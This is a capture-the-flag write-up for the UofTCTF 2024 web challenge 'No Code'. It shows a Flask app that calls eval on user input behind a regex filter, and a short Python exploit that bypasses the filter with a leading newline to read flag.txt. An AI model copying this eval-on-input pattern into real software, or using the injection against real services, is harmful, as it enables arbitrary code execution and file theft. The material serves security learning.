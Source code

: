 ```yaml
---
title: No Code
date: 2024-01-16
tags: 
- web
- regex
- author-hartmannsyg
categories: UofTCTF 2024
---
```


solved by {% person hartmannsyg %}

```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

We see that it uses a regex `/.*[\x20-\x7E]+.*` to filter it from any "normal" ascii characters.

However, we can simply send a newline to overcome this (thanks {% person squiddy %}):

```python
import requests

code = """\nopen("flag.txt").read()"""

a = requests.post('https://uoftctf-no-code.chals.io/execute',{"code": code})
print(a.text)
```
